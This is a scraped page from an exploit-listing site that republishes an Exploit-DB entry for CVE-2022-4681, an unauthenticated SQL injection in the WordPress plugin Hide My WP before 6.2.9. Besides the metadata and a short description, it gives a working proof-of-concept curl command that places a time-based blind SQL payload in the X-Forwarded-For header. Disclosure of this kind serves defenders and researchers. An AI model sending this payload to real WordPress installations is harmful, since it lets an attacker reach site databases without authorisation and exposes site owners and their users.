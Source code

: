 ```yaml
---
title: Hide My WP &lt; 6.2.9 - Unauthenticated SQLi exploit
url: https://sploitus.com/exploit?id=EDB-ID:51871&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2024-03-11
fetch_date: 2025-10-04T12:07:36.633358
---
```


# Hide My WP &lt; 6.2.9 - Unauthenticated SQLi exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Hide My WP < 6.2.9 - Unauthenticated SQLi CVE-2022-4681

2024-03-10 | CVSS 9.8

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=EDB-ID:51871
# Exploit Title: Wordpress Plugin Hide My WP < 6.2.9 - Unauthenticated SQLi
# Publication Date: 2023-01-11
# Original Researcher: Xenofon Vassilakopoulos
# Exploit Author: Xenofon Vassilakopoulos
# Submitter: Xenofon Vassilakopoulos
# Vendor Homepage: https://wpwave.com/
# Version: Hide My WP v6.2.8 and prior
# Tested on: Hide My WP v6.2.7
# Impact: Database Access
# CVE: CVE-2022-4681
# CWE: CWE-89
# CVSS Score: 8.6 (high)

## Description

The plugin does not properly sanitize and escape a parameter before using it in a SQL statement via an AJAX action available to unauthenticated users, leading to a SQL injection.

## Proof of Concept

curl -k --location --request GET "http://localhost:10008" --header "X-Forwarded-For: 127.0.0.1'+(select*from(select(sleep(20)))a)+'"
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)
